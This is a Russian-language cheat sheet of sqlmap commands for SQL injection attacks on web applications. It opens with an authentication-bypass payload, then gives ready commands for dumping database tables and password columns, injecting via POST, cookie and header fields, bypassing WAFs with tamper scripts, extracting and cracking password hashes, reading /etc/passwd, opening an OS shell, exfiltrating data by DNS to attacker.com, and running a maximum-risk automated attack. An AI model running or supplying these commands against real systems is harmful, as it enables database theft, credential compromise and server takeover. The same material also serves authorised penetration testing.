 SQL Injection Payload:
> ```sql
> SELECT * FROM users WHERE username = 'admin' --';



Определение базы данных:
sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump

GET-параметры
sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"

Определение типа инъекции
sqlmap -u "http://example.com/index.php?id=1" --technique=U
Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.

Обход WAF (Web Application Firewall)
sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.

Определение уровня привилегий
sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
sqlmap -u "http://example.com/index.php?id=1" --users

Получение хешей паролей
sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
sqlmap -u "http://example.com/index.php?id=1" --crack

Обход защиты (если есть WAF)
sqlmap -u "http://example.com/index.php?id=1" --random-agent --tamper=space2comment

Автоматическое определение всех уязвимых параметров
sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
Ищет SQL-инъекции во всех найденных формах на сайте

Поиск файлов на сервере
sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch

--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
